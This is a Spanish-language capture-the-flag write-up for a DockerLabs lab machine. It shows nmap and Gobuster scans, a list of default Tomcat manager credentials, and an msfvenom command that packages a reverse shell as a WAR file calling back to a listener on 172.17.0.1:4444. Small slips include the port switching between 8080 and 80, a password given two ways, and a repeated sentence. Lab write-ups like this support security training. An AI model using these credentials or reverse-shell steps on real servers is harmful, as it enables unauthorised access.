 ```yaml
---
title: Candy - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/5811d9cc-09c3-4632-ae97-1865205329b8)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `8080` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p8080 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/cbfab6eb-5a1b-415a-9365-5bfa0433ec73)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web de `Tomcat`, version `9.0.88`.

![image](https://github.com/user-attachments/assets/28c15c29-fe88-47da-b8b4-2311ef0f81d1)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Como no encontramos nada vamos ya que nos pide en muchos casos acceder con contraseña y usuario , vamos a porbar a meter algunas de las que estan por defecto:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

En este caso era `tomcat`,`s3cr3t`.

![image](https://github.com/user-attachments/assets/7a43f554-3f08-4bba-b332-73b85b16a206)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

![image](https://github.com/user-attachments/assets/39c7a47a-ddf5-4dbd-82a0-c9e7012fd64a)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o revshell.war
```

Simultaneamente estamos escuhando el el puerto `4444` con `netcat`.

```bash
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/2c558562-adcd-4c54-b885-214fd9c29b4b)

Ya somo root.

![image](https://github.com/user-attachments/assets/5aaa3629-ccef-41bd-a808-908ddcf472ab)

